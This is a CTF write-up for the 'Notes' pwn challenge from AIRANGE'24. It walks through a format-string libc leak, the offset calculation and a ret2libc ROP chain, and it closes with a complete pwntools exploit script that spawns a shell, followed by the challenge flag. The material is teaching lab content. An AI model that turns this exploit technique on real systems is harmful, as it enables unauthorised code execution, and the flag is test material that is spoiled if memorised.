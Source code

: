 ```yaml
---
title: AIRANGE'24 - Pwn - Notes
date: '2024-05-10'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'fmt']
draft: false
summary: Given a libc leak, perform a ret2libc attack.
---
```


## Challenge Description

![Screenshot](/static/writeups/airange24/pwn/notes1.png)

## Solution

Files provided to us:

```
Dockerfile
ld-2.35.so
libc.so.6
notes
notes.cpp
```

Checking binary’s mitigations:

![Screenshot](/static/writeups/airange24/pwn/notes2.png)

First thing first, lets see what is the vulnerable part. You can see in the following screenshot that we have FSB:

![Screenshot](/static/writeups/airange24/pwn/notes3.png)

As **PIE** and **NX** is enabled. We have to perform `ret2libc`. Now, open the binary in gdb and let’s see if we could leak an address from libc address range:

```
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

![Screenshot](/static/writeups/airange24/pwn/notes4.png)

Press `ctrl+C` and run `vmmap` to see range of libc; which in our case is `0x7ffff7b40000` - `0x7ffff7d5a000`:

![Screenshot](/static/writeups/airange24/pwn/notes5.png)

And if you see carefully, a leaked address (`0x7ffff7b69d90`) from this range is present on index `27`:

![Screenshot](/static/writeups/airange24/pwn/notes6.png)


As in this challenge, the **PIE** (Position Independent Executable) and **NX** (No eXecute) are enabled, meaning that each time a binary is executed, it generates a seemingly random address for every instruction in binary code. However, upon closer inspection, these addresses are not truly random.


This lack of randomness stems from a concept known as an offset, which represents the distance between any two functions or the distance from the base of the binary to a specific function. This offset remains consistent. For instance, consider two individuals racing, and the difference between them is consistently 2 meters. So, even though they are constantly moving, if the distance between them remains the same and we know the address of one person, we can calculate the address of the other person.

So, if we have a leaked libc function address and somehow we can calculate its offset from the libc base, we can determine the libc base address and call any function that we desire.

> Base address + Offset = Function address

With knowledge of one address, it becomes feasible to calculate the offset to another function. Consequently, each time the binary is executed, this offset is randomly generated and added to the base address.

In our case, the leaked address was `0x7ffff7b69d90` and base address is `0x7ffff7b40000`. Let’s calculate the offset:

```bash
pwndbg> p/x 0x7ffff7b69d90 - 0x7ffff7b40000
```

![Screenshot](/static/writeups/airange24/pwn/notes7.png)

As now we know offset, we can calculate libc base address at runtime essentially bypassing **PIE** protection. 😉

```bash:how-it-will-be-calculated
libc.address = <%27$p> - <0x29d90>
```

Finding offset:

![Screenshot](/static/writeups/airange24/pwn/notes8.png)

![Screenshot](/static/writeups/airange24/pwn/notes9.png)

Our offset is 268+8 = `276`. Now let's find `ret` and `pop rdi`. 

But why we need them?

**POP_RDI:** gadget is used to pop the next value from the stack into the rdi register. In this context, rdi is typically used to pass the first argument to a function. Since the script (that we want to create) aims to call system("/bin/sh"), it needs to pass the address of the string "/bin/sh" as the first argument to `system()`. Therefore, POP_RDI will be used to load the address of "/bin/sh" into rdi.

**RET:** gadget is used to return control flow to the address stored on the stack. In the ROP chain, after loading the address of "/bin/sh" into rdi using POP_RDI, the next step is to return to some address. In our case it will be used to maintain alignment or adjust the stack before calling `system()`. After RET, the `system()` function from libc will be called, which expects control to be transferred to its entry point with the appropriate arguments in registers.

In short, **POP_RDI** is used to load the address of "/bin/sh" into rdi, and **RET** is used for alignment or adjusting the stack before calling `system()` with the appropriate arguments.

So, to find **POP_RDI** and **RET**, I will use rop gadget (`rop.find_gadget()`).

Final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()       # Lambda function to encode strings to bytes
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)         # Lambda function to convert hex string to integer

exe = "./notes"
elf = context.binary = ELF(exe)
libc = elf.libc
exe = "./notes"
elf = context.binary = ELF(exe)
libc = elf.libc

# Set up the connection (remote or local)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
# If GDB flag is enabled, attach to the process for debugging
if args.GDB: gdb.attach(io, "b *main")

rop = ROP(libc)

io.sendlineafter(b"$ ", b"1")
io.sendlineafter(b"note: ", b"|%27$p|")
io.sendlineafter(b"$ ", b"2")
io.sendlineafter(b": ", b"0")

# Receiving leaked address and parsing it
leak = int(io.recvline().split(b"|")[1], 16)
print("leak @ %#x" % leak)

# Calculating the libc base address using the leaked address
libc.address = leak - 0x29d90
print("base @ %#x" % libc.address)

# Finding the gadgets needed for ROP chain
POP_RDI = libc.address + rop.find_gadget(['pop rdi', 'ret'])[0]
RET = libc.address + rop.find_gadget(['ret'])[0]

payload = flat(
    cyclic(276),                        # Filling buffer with cyclic pattern (overflow to RIP)
    POP_RDI,                            # Setting up RDI register for system call
    next(libc.search(b"/bin/sh\x00")),  # Address of "/bin/sh" string in libc
    RET,                                # Return address
    libc.sym.system                     # Calling system() function
)

io.sendline(b"0")
io.recvuntil(b'$ ')
io.sendline(b"1")

io.sendline(payload)
io.interactive()
```

Running it against remote:

![Screenshot](/static/writeups/airange24/pwn/notes10.png)

### Flag:

```
AUCSS{1_th0ught_cpp_w4s_s3cur3}
```
